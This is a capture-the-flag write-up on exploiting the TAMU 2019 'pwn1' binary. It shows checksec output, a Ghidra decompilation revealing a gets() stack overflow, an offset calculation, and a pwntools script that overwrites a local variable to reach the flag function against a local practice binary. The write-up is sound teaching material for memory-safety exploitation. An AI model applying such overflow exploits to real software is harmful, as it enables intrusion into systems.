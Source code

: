 ### Binary Exploitation

### Source: Tamu19

### Basic File Check

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ file tamu19_pwn1 
tamu19_pwn1: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ checksec tamu19_pwn1 
[!] Could not populate PLT: invalid syntax (unicorn.py, line 110)
[*] '/home/mark/Documents/Pentest/BOF/03-begineer_bof/tamu19_pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see its a `x86` binary which is `dynamically linked`, `non-stripped` and its protection are `NX,PIE`

Now i'll run it to have an idea of what it does

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1                           
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
pwner
I don't know that! Auuuuuuuugh!
```

Lets decompile the binary using ghidra

```
{
  int input_length;
  char input [43];
  int secret;
  undefined4 local_14;
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setvbuf(stdout,(char *)0x2,0,0);
  local_14 = 2;
  secret = 0;
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other  side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"Sir Lancelot of Camelot\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  input_length = strcmp(input,"To seek the Holy Grail.\n");
  if (input_length != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is my secret?");
  gets(input);
  if (secret == L'\xdea110c8') {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
  return 0;
}
```

We can see what it does

```
1. It asks for the username which is (Sir Lancelot of Camelot) and uses fget to receieve the input which is then stored in a 43bytes buffer 
2. If that first codition isn't meet it exits but if it if we get another question
3. What's the quest which is (To seek the Holy Grail.) and the answer is recieved using fget which is also still stored in the 43bytes buffer 
4. If the condition isn't meet it exits but if it is we get another question
5. What is my secret 
6. It does an if check to compare the value stored in the secret variable with 0xdea110c8
7. if its correct it prints out the flag else it exits
```

Now from this we know that get can perform a buffer overflow cause the third question uses an insecure input receive method which is `get`

Also the problem is, in the code the secret variable currently has a value of `0`

So when the if check reaches we won't get the flag cause the comparism isn't meet

So lets try it now 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
lol 
I don't know that! Auuuuuuuugh!
```

Now lets start it again and this time around send 100 A's when we get to the third question

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 -c "print 'A'*100"                               
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
                                                                                                                                                                                                                  
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ ./tamu19_pwn1             
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
Sir Lancelot of Camelot
What... is your quest?
To seek the Holy Grail.
What... is my secret?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
I don't know that! Auuuuuuuugh!
zsh: segmentation fault  ./tamu19_pwn1
```

Sweet we get a segfault

Now lets get the offset. Which we will get from looking at the stack layout in ghidra


```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             int __cdecl main(void)
             int               EAX:4          <RETURN>                                XREF[1]:     00010807(W)  
             undefined4        EAX:4          input_length                            XREF[1]:     00010807(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  
```

Nice we see our input starts with an offset of `-0x43` and the offset to secret is `-0x18`

Therefore this gives an offset of `0x43 - 0x18 = 0x2b` between the start of our input and the secret variable

So bascially what we'll do is to overwrite the variable secret with the content of `0xdea110c8`

Here's my script below

```
from pwn import *

io = process('./tamu19_pwn1')

answer_1 = "Sir Lancelot of Camelot"
answer_2 = "To seek the Holy Grail."

io.sendlineafter(b'?', answer_1)
io.sendline(answer_2)

offset = "0"*0x2b
overwrite = p32(0xdea110c8)

secret = offset + overwrite 

io.send(secret)
io.send('\n')
io.interactive()
```

Lets run it 

```
┌──(venv)─(mark__haxor)-[~/Documents/Pentest/BOF/03-begineer_bof]
└─$ python2 pwnexploit.py
[+] Starting local process './tamu19_pwn1': pid 103999
[*] Switching to interactive mode
[*] Process './tamu19_pwn1' stopped with exit code 0 (pid 103999)
What... is your quest?
What... is my secret?
Right. Off you go.
FLAG{this_is_a_fake_flag}

[*] Got EOF while reading in interactive
$ 
[*] Got EOF while sending in interactive

```

And we're done 


<br> <br>
[Back To Home](../../index.md)
<br>



<br> <br>
[Back To Home](../../index.md)
<br>



